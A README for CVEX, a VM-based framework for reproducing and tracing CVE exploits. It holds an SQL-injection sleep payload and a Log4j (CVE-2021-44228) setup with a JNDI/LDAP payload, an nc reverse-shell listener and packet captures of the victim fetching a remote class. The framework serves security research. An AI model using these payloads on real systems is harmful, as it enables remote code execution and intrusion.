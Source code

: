 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -e .
sudo apt update
sudo apt install virtualbox virtualbox-ext-pack
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Always execute CVEX from the root folder:
```
~/CVEX$ cvex -c CVE-0000-00001
```

CVEX comes with a set of PoC CVEs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu

<details>

<summary>Execution of CVE-0000-00000</summary>

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) describes the VM infrastructure for this PoC:
```
blueprint: windows10-ubuntu2204
ubuntu:
  trace: nginx
  playbook: linux.yml
windows:
  trace: "curl"
  command: "curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)"
```

Full list of parameters of a CVEX record:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

Contributors can provide additional blueprints. In the case of CVE-0000-00000 the blueprint `windows10-ubuntu2204` is stored in [/blueprint/windows10-ubuntu2204/blueprint.yml](/blueprint/windows10-ubuntu2204/blueprint.yml):
```
windows:
  image: "gusztavvargadr/windows-10"
  version: "2202.0.2404"
  type: "windows"
ubuntu:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Full list of parameters of a blueprint:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

At first, CVEX pulls the Ubuntu VM from the Vagrant repository and stores the config file of the VM in ~/.cvex/router. This Ubuntu VM will act as a router. It also creates the `clean` snapshot with the initial state of the VM:
```
~/CVEX$ cvex -c CVE-0000-00000
2024-09-13 13:52:30,081 - INFO - [router] Retrieving status of router...
2024-09-13 13:52:32,820 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-09-13 13:52:33,766 - INFO - [router] Starting the VM router...
2024-09-13 13:54:41,199 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
```

Ansible scripts from [ansible](/ansible) are used to pre-configure VMs. CVEX runs the [ansible/router.yml](/ansible/router.yml) Ansible playbook before creating the `router` snapshot:
```
2024-09-13 13:54:56,344 - INFO - [router] Executing Ansible playbook ansible/router.yml...
2024-09-13 13:54:58,042 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] PLAY [Router] ******************************************************************
2024-09-13 13:54:58,043 - INFO - [router] 
2024-09-13 13:54:58,043 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-09-13 13:55:01,136 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 13:55:01,137 - INFO - [router] interpreter could change the meaning of that path. See
2024-09-13 13:55:01,137 - INFO - [router] https://docs.ansible.com/ansible-
2024-09-13 13:55:01,137 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 13:55:01,162 - INFO - [router] ok: [router]
2024-09-13 13:55:01,162 - INFO - [router] 
2024-09-13 13:55:01,166 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-09-13 13:55:20,994 - INFO - [router] changed: [router]
2024-09-13 13:55:20,994 - INFO - [router] 
2024-09-13 13:55:20,994 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-09-13 13:55:21,824 - INFO - [router] changed: [router]
2024-09-13 13:55:21,824 - INFO - [router] 
2024-09-13 13:55:21,824 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-09-13 13:55:25,603 - INFO - [router] ok: [router]
2024-09-13 13:55:25,603 - INFO - [router] 
2024-09-13 13:55:25,603 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-09-13 13:55:26,131 - INFO - [router] changed: [router]
2024-09-13 13:55:26,131 - INFO - [router] 
2024-09-13 13:55:26,131 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-09-13 13:55:27,643 - INFO - [router] changed: [router]
2024-09-13 13:55:27,643 - INFO - [router] 
2024-09-13 13:55:27,643 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-09-13 13:55:29,027 - INFO - [router] changed: [router]
2024-09-13 13:55:29,027 - INFO - [router] 
2024-09-13 13:55:29,027 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-09-13 13:55:29,556 - INFO - [router] changed: [router]
2024-09-13 13:55:29,557 - INFO - [router] 
2024-09-13 13:55:29,557 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-09-13 13:55:30,088 - INFO - [router] changed: [router]
2024-09-13 13:55:30,088 - INFO - [router] 
2024-09-13 13:55:30,088 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-09-13 13:55:30,711 - INFO - [router] changed: [router]
2024-09-13 13:55:30,711 - INFO - [router] 
2024-09-13 13:55:30,711 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-09-13 13:55:31,336 - INFO - [router] changed: [router]
2024-09-13 13:55:31,336 - INFO - [router] 
2024-09-13 13:55:31,336 - INFO - [router] PLAY RECAP *********************************************************************
2024-09-13 13:55:31,337 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 13:55:31,461 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
```

After the router VM, CVEX runs the Windows VM:
```
2024-09-13 13:55:43,939 - INFO - [windows] Initializing a new VM windows at /home/john/.cvex/gusztavvargadr_windows-10/2202.0.2404/1...
2024-09-13 13:55:44,936 - INFO - [windows] Starting the VM windows...
```

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running:
```
$ cvex -c CVE-0000-00000 -k
2024-09-13 14:25:18,880 - INFO - [router] Retrieving status of router...
2024-09-13 14:25:23,828 - INFO - [router] VM router (192.168.56.2) is already running
2024-09-13 14:25:26,910 - INFO - [router] Retrieving snapshot list of router...
2024-09-13 14:25:29,701 - INFO - [windows] Looking for a VM with CVE-0000-00000/windows snapshot...
2024-09-13 14:25:35,875 - INFO - [windows] Retrieving status of windows...
2024-09-13 14:25:41,071 - INFO - [windows] VM windows (192.168.56.3) is already running
2024-09-13 14:25:45,390 - INFO - [windows] Retrieving snapshot list of windows...
2024-09-13 14:25:51,738 - INFO - [windows] Creating snapshot 'clean' for VM windows (192.168.56.3)...
```

CVEX runs the [ansible/windows.yml](/ansible/windows.yml) Ansible script before creating the `CVE-0000-00000/windows` snapshot:
```
2024-09-13 14:26:30,209 - INFO - [windows] Executing Ansible playbook ansible/windows.yml...
2024-09-13 14:26:31,345 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] PLAY [Windows] *****************************************************************
2024-09-13 14:26:31,346 - INFO - [windows] 
2024-09-13 14:26:31,346 - INFO - [windows] TASK [Gathering Facts] *********************************************************
2024-09-13 14:27:21,945 - INFO - [windows] ok: [windows]
2024-09-13 14:27:21,946 - INFO - [windows] 
2024-09-13 14:27:21,946 - INFO - [windows] TASK [Create C:\Tools] *********************************************************
2024-09-13 14:28:04,478 - INFO - [windows] changed: [windows]
2024-09-13 14:28:04,478 - INFO - [windows] 
2024-09-13 14:28:04,479 - INFO - [windows] TASK [Download Process Monitor] ************************************************
2024-09-13 14:28:42,227 - INFO - [windows] changed: [windows]
2024-09-13 14:28:42,227 - INFO - [windows] 
2024-09-13 14:28:42,227 - INFO - [windows] TASK [Unzip ProcessMonitor.zip] ************************************************
2024-09-13 14:29:19,518 - INFO - [windows] changed: [windows]
2024-09-13 14:29:19,518 - INFO - [windows] 
2024-09-13 14:29:19,518 - INFO - [windows] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:32:03,983 - INFO - [windows] changed: [windows]
2024-09-13 14:32:03,983 - INFO - [windows] 
2024-09-13 14:32:03,983 - INFO - [windows] TASK [Install mitmproxy-ca-cert.cer] *******************************************
2024-09-13 14:32:50,823 - INFO - [windows] changed: [windows]
2024-09-13 14:32:50,823 - INFO - [windows] 
2024-09-13 14:32:50,823 - INFO - [windows] TASK [Copy root.crl] ***********************************************************
2024-09-13 14:35:47,857 - INFO - [windows] changed: [windows]
2024-09-13 14:35:47,858 - INFO - [windows] 
2024-09-13 14:35:47,858 - INFO - [windows] TASK [Install root.crl] ********************************************************
2024-09-13 14:36:31,914 - INFO - [windows] changed: [windows]
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:31,914 - INFO - [windows] PLAY RECAP *********************************************************************
2024-09-13 14:36:31,914 - INFO - [windows] windows                    : ok=8    changed=7    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:36:31,914 - INFO - [windows] 
2024-09-13 14:36:32,194 - INFO - [windows] Creating snapshot 'CVE-0000-00000/windows' for VM windows (192.168.56.3)...
```

After the Windows VM, CVEX runs the Ubuntu VM:
```
2024-09-13 14:37:03,308 - INFO - [ubuntu] Looking for a VM with CVE-0000-00000/ubuntu snapshot...
2024-09-13 14:37:05,749 - INFO - [ubuntu] Retrieving status of ubuntu...
2024-09-13 14:37:07,563 - INFO - [ubuntu] Initializing a new VM ubuntu at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-09-13 14:37:09,382 - INFO - [ubuntu] Starting the VM ubuntu...
2024-09-13 14:40:50,765 - INFO - [ubuntu] Creating snapshot 'clean' for VM ubuntu (192.168.56.4)...
```

When the VM is up, CVEX runs the [ansible/linux.yml](/ansible/linux.yml) Ansible playbook:
```
2024-09-13 14:41:11,647 - INFO - [ubuntu] Executing Ansible playbook ansible/linux.yml...
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] PLAY [Linux] *******************************************************************
2024-09-13 14:41:13,576 - INFO - [ubuntu] 
2024-09-13 14:41:13,576 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:19,893 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:19,893 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:19,893 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:19,894 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:19,921 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:19,922 - INFO - [ubuntu] 
2024-09-13 14:41:19,922 - INFO - [ubuntu] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-09-13 14:41:22,855 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:22,855 - INFO - [ubuntu] 
2024-09-13 14:41:22,856 - INFO - [ubuntu] TASK [Run update-ca-certificates] **********************************************
2024-09-13 14:41:34,967 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:41:34,967 - INFO - [ubuntu] 
2024-09-13 14:41:34,967 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:41:34,968 - INFO - [ubuntu] ubuntu                     : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```

[records/CVE-0000-00000/cvex.yml](records/CVE-0000-00000/cvex.yml) has an optional parameter `playbook: linux.yml` that specifies the custom Ansible playbook. In our case it installs nginx before creating the `CVE-0000-00000/ubuntu` snapshot:
```
2024-09-13 14:41:35,241 - INFO - [ubuntu] Executing Ansible playbook records/CVE-0000-00000/linux.yml...
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] PLAY [Linux target] ************************************************************
2024-09-13 14:41:36,711 - INFO - [ubuntu] 
2024-09-13 14:41:36,711 - INFO - [ubuntu] TASK [Gathering Facts] *********************************************************
2024-09-13 14:41:41,105 - INFO - [ubuntu] [WARNING]: Platform linux on host ubuntu is using the discovered Python
2024-09-13 14:41:41,105 - INFO - [ubuntu] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-09-13 14:41:41,106 - INFO - [ubuntu] interpreter could change the meaning of that path. See
2024-09-13 14:41:41,106 - INFO - [ubuntu] https://docs.ansible.com/ansible-
2024-09-13 14:41:41,106 - INFO - [ubuntu] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-09-13 14:41:41,138 - INFO - [ubuntu] ok: [ubuntu]
2024-09-13 14:41:41,138 - INFO - [ubuntu] 
2024-09-13 14:41:41,138 - INFO - [ubuntu] TASK [Install nginx 1.18.0] ****************************************************
2024-09-13 14:42:43,406 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:43,406 - INFO - [ubuntu] 
2024-09-13 14:42:43,406 - INFO - [ubuntu] TASK [Copy default.conf] *******************************************************
2024-09-13 14:42:45,154 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:45,154 - INFO - [ubuntu] 
2024-09-13 14:42:45,154 - INFO - [ubuntu] TASK [Copy certificate] ********************************************************
2024-09-13 14:42:46,761 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:46,761 - INFO - [ubuntu] 
2024-09-13 14:42:46,761 - INFO - [ubuntu] TASK [Copy key] ****************************************************************
2024-09-13 14:42:48,310 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:48,310 - INFO - [ubuntu] 
2024-09-13 14:42:48,310 - INFO - [ubuntu] TASK [Copy index.html] *********************************************************
2024-09-13 14:42:50,012 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:50,012 - INFO - [ubuntu] 
2024-09-13 14:42:50,012 - INFO - [ubuntu] TASK [Restart nginx] ***********************************************************
2024-09-13 14:42:51,638 - INFO - [ubuntu] changed: [ubuntu]
2024-09-13 14:42:51,638 - INFO - [ubuntu] 
2024-09-13 14:42:51,638 - INFO - [ubuntu] PLAY RECAP *********************************************************************
2024-09-13 14:42:51,639 - INFO - [ubuntu] ubuntu                     : ok=7    changed=6    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-09-13 14:42:51,639 - INFO - [ubuntu] 
2024-09-13 14:42:51,776 - INFO - [ubuntu] Creating snapshot 'CVE-0000-00000/ubuntu' for VM ubuntu (192.168.56.4)...
```

Every VM may have maximum 3 Ansible playbooks:
1. Configuration playbook ([ansible/linux.yml](/ansible/linux.yml)) - controlled by CVEX developers
2. Blueprint playbook (none in our case) - controlled by CVEX blueprint contributors
3. CVE playbook ([records/CVE-0000-00000/linux.yml](records/CVE-0000-00000/linux.yml)) - controlled by CVEX users

At this point all the VMs (router, Windows, Ubuntu) are up and running, the needed software is installed and the needed VM snapshots are created. CVEX performs the following actions:
- Configures the hosts file on every VM except the router
- Sets up static network interface IP addresses on every VM
- Configures the routing so that all network traffic flows through the router VM
- Runs tcpdump on the router
- Runs mitmproxy on the router
- Runs strace (on Linux)
- Runs Process Monitor (on Windows)

```
2024-09-13 14:43:04,575 - INFO - [router] Executing 'ls /etc/netplan'...
2024-09-13 14:43:07,653 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:43:07,731 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:43:07,760 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:43:07,805 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-09-13 14:43:07,828 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:43:07,894 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:43:08,017 - INFO - [router] Executing 'sudo netplan apply'...
2024-09-13 14:43:12,316 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:43:12,402 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:43:12,531 - INFO - [windows] Executing 'netsh interface ipv4 show inter'...
2024-09-13 14:43:13,943 - INFO - [windows] Executing 'netsh interface ipv4 set interface 5 dadtransmits=0 store=persistent'...
2024-09-13 14:43:14,155 - INFO - [windows] Executing 'powershell "Get-NetAdapter -Name 'Ethernet 2' | New-NetIPAddress -IPAddress 192.168.56.3 -DefaultGateway 192.168.56.2 -PrefixLength 24"'...
2024-09-13 14:43:35,697 - INFO - [windows] Executing 'powershell "Disable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:43:50,320 - INFO - [windows] Executing 'powershell "Enable-NetAdapter -Name 'Ethernet 2' -Confirm:$False"'...
2024-09-13 14:44:04,036 - INFO - [windows] Executing 'route DELETE 192.168.56.0'...
2024-09-13 14:44:04,156 - INFO - [windows] Executing 'route print'...
2024-09-13 14:44:04,339 - INFO - [windows] Executing 'route ADD 192.168.56.0 MASK 255.255.255.0 192.168.56.2 if 5'...
2024-09-13 14:44:04,463 - INFO - [windows] Downloading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,691 - INFO - [windows] Uploading /C:\Windows\System32\drivers\etc\hosts...
2024-09-13 14:44:04,713 - INFO - [ubuntu] Executing 'ls /etc/netplan'...
2024-09-13 14:44:07,449 - INFO - [ubuntu] Downloading /etc/netplan/00-installer-config.yaml...
2024-09-13 14:44:07,542 - INFO - [ubuntu] Downloading /etc/netplan/01-netcfg.yaml...
2024-09-13 14:44:07,613 - INFO - [ubuntu] Downloading /etc/netplan/50-vagrant.yaml...
2024-09-13 14:44:07,650 - INFO - [ubuntu] Uploading /tmp/cvex.yaml...
2024-09-13 14:44:07,698 - INFO - [ubuntu] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-09-13 14:44:07,749 - INFO - [ubuntu] Executing 'sudo ip link set eth1 up'...
2024-09-13 14:44:07,866 - INFO - [ubuntu] Executing 'sudo netplan apply'...
2024-09-13 14:44:11,357 - INFO - [ubuntu] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-09-13 14:44:11,452 - INFO - [ubuntu] Executing 'sudo systemctl restart ufw'...
2024-09-13 14:44:11,604 - INFO - [ubuntu] Downloading /etc/hosts...
2024-09-13 14:44:11,674 - INFO - [ubuntu] Uploading /tmp/hosts...
2024-09-13 14:44:11,693 - INFO - [ubuntu] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-09-13 14:44:11,772 - INFO - [router] Executing 'pkill mitmdump'...
2024-09-13 14:44:11,850 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-09-13 14:44:11,965 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:12,021 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:12,092 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-09-13 14:44:12,181 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-09-13 14:44:12,238 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-09-13 14:44:12,847 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-09-13 14:44:18,321 - INFO - [windows] Executing 'taskkill /IM Procmon.exe /F'...
2024-09-13 14:44:18,675 - INFO - [windows] Executing 'rmdir /S /Q C:\cvex'...
2024-09-13 14:44:18,765 - INFO - [windows] Executing 'mkdir C:\cvex'...
2024-09-13 14:44:18,852 - INFO - [windows] Uploading /C:\cvex\config.pmc...
2024-09-13 14:44:18,894 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /BackingFile C:\cvex\procmon.pml /LoadConfig C:\cvex\config.pmc /Quiet'...
2024-09-13 14:44:18,917 - INFO - [ubuntu] Executing 'sudo pkill strace'...
2024-09-13 14:44:19,008 - INFO - [ubuntu] Executing 'rm -rf /tmp/cvex'...
2024-09-13 14:44:19,078 - INFO - [ubuntu] Executing 'mkdir /tmp/cvex'...
2024-09-13 14:44:19,133 - INFO - [ubuntu] Executing 'ps -ax | egrep "nginx" | grep -v grep'...
2024-09-13 14:44:19,238 - INFO - [ubuntu] Executing 'sudo strace -p 3934 -o /tmp/cvex/ubuntu_strace_nginx_3934.log -v'...
2024-09-13 14:44:19,399 - INFO - [ubuntu] Executing 'sudo strace -p 3935 -o /tmp/cvex/ubuntu_strace_nginx_3935.log -v'...
2024-09-13 14:44:19,527 - INFO - [ubuntu] Executing 'sudo strace -p 3936 -o /tmp/cvex/ubuntu_strace_nginx_3936.log -v'...
```


At this point all VMs are ready to reproduce the CVE. CVEX executes the command from cvex.yml:
```
2024-09-13 14:44:19,648 - INFO - [windows] Executing 'curl https://ubuntu/index.html?cat=(select*from(select(sleep(15)))a)'...
```

The curl command has succeeded. CVEX downloads logs and puts them to the default output folder `out`:
- From router: tcpdump's PCAP file
- From router: mitmdump's log file
- From Windows: Process Monitor's log file
- From Linux: strace's log files

Parameter `-o` specifies custom output folder.

```
2024-09-13 14:44:21,063 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /Terminate'...
2024-09-13 14:44:30,975 - INFO - [windows] Executing 'C:\Tools\Procmon64.exe /AcceptEula /OpenLog C:\cvex\procmon.pml /SaveAs C:\cvex\procmon.xml'...
2024-09-13 14:44:31,948 - INFO - [windows] Downloading /C:\cvex\procmon.pml...
2024-09-13 14:44:32,644 - INFO - [windows] Downloading /C:\cvex\procmon.xml...
2024-09-13 14:44:33,304 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3934.log...
2024-09-13 14:44:33,403 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3935.log...
2024-09-13 14:44:33,436 - INFO - [ubuntu] Downloading /tmp/cvex/ubuntu_strace_nginx_3936.log...
2024-09-13 14:44:33,471 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-09-13 14:44:38,472 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-09-13 14:44:38,524 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
```
</details>

- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>Execution of CVE-2021-44228 and analysis of logs</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Section "Execution of CVE-0000-00000" describes the execution process in details, therefore we will omit it here. Instead, let's focus on analysis of logs produced by CVEX. In our logs the IP address of ubuntu1 is 192.168.56.3, the IP address of ubuntu2 is 192.168.56.4.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker 192.168.56.4 (ubuntu2) issues an HTTP POST request to Apache Tomcat running on 192.168.56.3 (ubuntu1). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (192.168.56.4:1389). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on http://192.168.56.4:9999/Exploit.class:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server 192.168.56.4:9999 replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
